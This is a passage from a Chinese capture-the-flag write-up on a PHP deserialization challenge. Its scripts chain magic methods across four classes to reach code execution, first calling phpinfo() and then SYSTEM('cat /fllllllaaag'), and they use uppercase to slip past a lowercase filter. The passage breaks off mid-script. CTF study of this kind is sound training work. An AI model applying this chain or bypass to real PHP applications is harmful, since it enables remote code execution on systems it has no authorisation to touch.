 3. 首先，将四个对象先实例化，分别为$a、$b、$c、$d，此时我们再根据先前对题目的分析对代码进行编写（具体分析查看   
**题目代码**   
中进行注释的解析以及****  
**解题思路**   
中的分析），得到解题代码。  
> strtolower()函数是一种常见的字符串处理函数，用于将字符串中的所有字符转换为小写形式。它的主要作用是实现字符串的大小写转换，将大写字母转换为相应的小写字母。  
  
```
```  
```
<?php
class NISA{
    public $fun;
    public $txw4ever = "phpinfo();";         //给$fun赋值要执行的代码，我们先使用phpinfo()进行测试
}
class TianXiWei{
    public $ext;
    public $x;
}
class Ilovetxw{
    public $huang;
    public $su;
}
class four{
    public $a;
    private $fun = "sixsixsix";             //需要让fun="sixsixsix"才能执行大小写转换的代码
}
$a = new NISA();
$b = new TianXiWei();
$c = new Ilovetxw();
$d = new four();
$c -> su = $a;                              //给$su赋值为对象NISA，触发invoke
$d ->a = $c;                                //给$a赋值为对象Ilovetxw，触发toString
$c ->huang = $d;                            //给$huang赋值为对象four，触发set
$b ->ext = $c;                              //给$ext赋值为对象Ilovetxw，触发call
echo urlencode(serialize($b));              //执行反序列化,触发wakeup
?>
```  
  
4. 将序列化代码通过ser参数传入后产生报错，根据之前对题目代码进行的分析，猜测对参数进行了过滤，尝试使用大写绕过，最终成功回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpO7ciaNdOnuTZzUaklic6lcLMdaLL2mW4cJ4QCkIdHH9FR0NGCKsAl5Ym0RqO9YgicfaE8CwjMUwudZg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpO7ciaNdOnuTZzUaklic6lcLMqwwSOxkQAiakCmPvoHfib28bWnfVy3A21o7ePzFvAq0CpynC3jY2lySg/640?wx_fmt=png&from=appmsg "")  
  
# 三、解题代码  
  
通过system()函数执行系统命令对flag文件进行读取，得到flag（注意使用大写绕过）。  
```
```  
```
<?php
class NISA{
    public $fun;
    public $txw4ever = "SYSTEM('cat /fllllllaaag');";         //给$fun赋值要执行的代码，执行查看flag文件命令
}
class TianXiWei{
    public $ext;
    public $x;
}
class Ilovetxw{
    public $huang;
    public $su;
}
class four{
```